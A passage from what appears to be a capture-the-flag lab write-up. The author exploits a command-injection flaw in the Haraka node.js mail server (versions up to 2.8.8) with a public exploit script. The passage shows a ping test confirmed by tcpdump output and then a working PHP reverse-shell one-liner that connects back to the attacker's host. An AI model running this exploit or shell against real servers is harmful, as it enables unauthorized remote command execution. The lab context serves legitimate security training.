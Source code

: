     -o- by Xychix, 26 January 2017 ---
    -o- xychix [at] hotmail.com ---
    -o- exploit haraka node.js mailserver <= 2.8.8 (with attachment plugin activated) --

    -i- info: https://github.com/haraka/Haraka/pull/1606 (the change that fixed this)

    Send harariki to penelope@redcross.htb, attachment saved as harakiri-20190403-125438.zip, commandline: ping -c 1 10.10.14.14 , mailserver 10.10.10.113 is used for delivery
    ...[snip]...



After a about one minute, I got a ping back:



    root@kali# tcpdump -i tun0 -n icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    12:55:36.153998 IP 10.10.10.113 > 10.10.14.14: ICMP echo request, id 13394, seq 1, length 64
    12:55:36.154033 IP 10.10.14.14 > 10.10.10.113: ICMP echo reply, id 13394, seq 1, length 64



I had a hard time with a lot of common reverse shells, but I got the php
one to work. It's important to escape the inner `"` and `$`:



    root@kali# python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.14.14\",443);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.10.10.113                              
    ##     ##    ###    ########     ###    ##    ## #### ########  ####
    ##     ##   ## ##   ##     ##   ## ##   ##   ##   ##  ##     ##  ##
    ##     ##  ##   ##  ##     ##  ##   ##  ##  ##    ##  ##     ##  ##
    ######### ##     ## ########  ##     ## #####     ##  ########   ##
    ##     ## ######### ##   ##   ######### ##  ##    ##  ##   ##    ##
    ##     ## ##     ## ##    ##  ##     ## ##   ##   ##  ##    ##   ##
    ##     ## ##     ## ##     ## ##     ## ##    ## #### ##     ## ####

    -o- by Xychix, 26 January 2017 ---
    -o- xychix [at] hotmail.com ---
    -o- exploit haraka node.js mailserver <= 2.8.8 (with attachment plugin activated) --

    -i- info: https://github.com/haraka/Haraka/pull/1606 (the change that fixed this)

    Send harariki to penelope@redcross.htb, attachment saved as harakiri-20190403-125710.zip, commandline: php -r '$sock=fsockopen("10.10.14.14",443);exec("/bin/sh -i <&3 >&3 2>&3");' , mailserver 10.10.10.113 is used for delivery
